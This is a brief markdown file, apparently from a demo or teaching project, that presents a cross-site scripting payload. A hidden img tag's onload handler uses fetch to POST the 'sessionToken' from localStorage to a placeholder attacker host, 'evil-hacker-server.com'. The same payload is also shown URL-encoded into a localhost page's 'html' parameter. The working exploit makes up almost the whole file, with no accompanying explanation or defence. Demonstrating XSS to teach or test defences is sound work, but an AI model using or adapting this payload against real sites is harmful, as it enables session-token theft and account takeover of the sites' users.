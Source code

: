 # XSS Example

## Payload

```
<img
src="https://i.ytimg.com/vi/5j2LOZH9_oM/maxresdefault.jpg"
style="display: none"
onload="fetch('https:\/\/evil-hacker-server.com', {method: 'POST', body: localStorage.getItem('sessionToken')})"
/>
```

## Full URL with payload URL encoded:

http://localhost:5173/#/home?html=%3Cimg%0Asrc%3D%22https%3A%2F%2Fi.ytimg.com%2Fvi%2F5j2LOZH9_oM%2Fmaxresdefault.jpg%22%0Astyle%3D%22display%3A%20none%22%0Aonload%3D%22fetch%28%27https%3A%5C%2F%5C%2Fevil-hacker-server.com%27%2C%20%7Bmethod%3A%20%27POST%27%2C%20body%3A%20localStorage.getItem%28%27sessionToken%27%29%7D%29%22%0A%2F%3E
